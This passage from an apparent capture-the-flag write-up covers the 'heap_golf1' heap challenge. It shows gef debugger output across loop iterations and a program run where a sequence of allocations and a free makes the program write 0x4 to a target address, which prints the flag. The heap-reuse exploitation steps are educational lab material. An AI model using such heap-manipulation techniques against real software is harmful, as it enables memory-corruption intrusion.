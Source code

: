 ```
Breakpoint 2, 0x0000000000400862 in main ()
gef➤  p $edx
$3 = 0x2
gef➤  p $rax
$4 = 0x6022c0
```

```
Breakpoint 2, 0x0000000000400862 in main ()
gef➤  p $edx
$5 = 0x3
gef➤  p $rax
$6 = 0x602290
```

```
Breakpoint 2, 0x0000000000400862 in main ()
gef➤  p $edx
$7 = 0x4
gef➤  p $rax
$8 = 0x602260
```

With that last iteration, we finally write the value `0x4` to the address of target `0x602260`. With that we can capture the flag.

```
$ /heap_golf1 
target green provisioned.
enter -1 to exit simulation, -2 to free course.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: -2
target green provisioned.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
flag{g0ttem_b0is}
```